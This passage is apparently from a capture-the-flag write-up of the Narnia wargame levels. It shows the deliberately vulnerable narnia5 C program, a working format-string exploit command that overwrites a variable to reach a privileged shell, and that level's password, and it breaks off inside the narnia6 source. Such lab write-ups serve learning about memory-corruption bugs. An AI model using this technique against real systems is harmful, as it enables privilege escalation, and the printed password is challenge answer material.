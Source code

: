 ```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
	int i = 1;
	char buffer[64];

	snprintf(buffer, sizeof buffer, argv[1]);
	buffer[sizeof (buffer) - 1] = 0;
	printf("Change i's value from 1 -> 500. ");

	if(i==500){
		printf("GOOD\n");
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
	}

	printf("No way...let me give you a hint!\n");
	printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
	printf ("i = %d (%p)\n", i, &i);
	return 0;
}
```
The snprintf in this exercise suffers of format string vulnerability, so to complete this level I use that attack to set the correct value to i variable.
The program displays i variable address and it never changes because there is no ASLR.
So I decided to perform format string attack with direct parameter access.

Notice that we can write format string in argv[1] and with sprints we are able to write everywhere in memory.

```bash
./narnia5 $(python -c 'print "\x0c\xd4\xff\xff"*125+"%15$n"')
```


##### pass=neezocaeng



------------------------------------------------------------------------------------------------------------------------------------

## narnia6 -> narnia7
```C

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

```